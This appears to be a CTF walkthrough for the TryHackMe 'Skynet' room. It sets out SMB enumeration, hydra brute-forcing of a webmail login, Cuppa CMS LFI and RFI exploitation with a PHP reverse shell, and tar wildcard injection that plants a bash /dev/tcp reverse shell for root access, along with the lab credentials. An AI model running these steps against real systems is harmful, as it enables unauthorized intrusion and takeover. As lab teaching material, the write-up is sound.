 # Skynet

**Room Link:** [https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)

```
nmap -A 10.10.13.172
```

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

```
smbclient -L //10.10.13.172
```

<figure><img src="../../.gitbook/assets/image (13) (2).png" alt=""><figcaption></figcaption></figure>

```
smbget -R smb://10.10.13.172/anonymous
cat logs/log* | sort | uniq  > passwords.txt 
```

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

There is also an email from Miles Dyson, as it's just his name I tried different varations of his name for a username. There is a folder on samba that could be the username as well, milesdyson.&#x20;

<figure><img src="../../.gitbook/assets/image (5) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (4).png" alt=""><figcaption><p>username.txt</p></figcaption></figure>





```
gobuster dir 10.10.13.172 -u http://10.10.13.172 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (34) (1).png" alt=""><figcaption></figcaption></figure>



```
hydra -l milesdyson -P passwords.txt 10.10.13.172 http-post-form "/squirrelmail/src/login.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F incorrect" -V -F -u
```

<figure><img src="../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

We can now login to squirrelmail that gobuster discovered.

<figure><img src="../../.gitbook/assets/image (10) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (3) (2).png" alt=""><figcaption></figcaption></figure>

Downloaded all the files from the milesdyson folder on smb.

```
smbget -R smb://10.10.13.172/milesdyson -U milesdyson
Password: )s{A&2Z=F^n_E.B`
```

<figure><img src="../../.gitbook/assets/image (32) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (35) (1).png" alt=""><figcaption></figcaption></figure>

```
gobuster dir 10.10.13.172 -u http://10.10.13.172/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

None of the passwords worked or default credentials for cuppa.

<figure><img src="../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

Found an exploit for cuppa LFI/RFI

```
searchsploit cuppa
searchsploit -x php/webapps/25971.txt
```

<figure><img src="../../.gitbook/assets/image (33) (1).png" alt=""><figcaption></figcaption></figure>

Testing LFI and it works

```
http://10.10.13.172/45kra24zxs28v3yd/administrator//alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we will try RFI to get a reverse shell

**Kali #1**&#x20;

Create PHP reverse shell then host the file

<figure><img src="../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

```
python2 -m SimpleHTTPServer 81
```

**Kali #2**

```
nc -lvnp 1337
```

**Browser**

```
http://10.10.13.172:81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.243.233/revshell.php
```

<figure><img src="../../.gitbook/assets/image (18) (2) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

There is a backup script that is ran every minute by root which backs up /var/www/html

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (31) (1).png" alt=""><figcaption></figcaption></figure>

****

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

We can use the following from gtfo to create a reverse shell. The checkpoint argument lets us run a command before the files are tar'd so we will create a reverse shell in /var/www/html and then the commands will execute when the folder is tar'd next.

****

**Exploit Link:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

```
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.10.243.233/1338 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

**Kali**

```
nc -nvlp 1338
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

There is a password in the configuration file, it does not work for root but we see in the home directory another user called jjameson

```
cat /var/www/html/configuration.php
```

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

We can login as jjameson&#x20;

```
su jjameson
Password: nv5uz9r3ZEDzVjNu
```
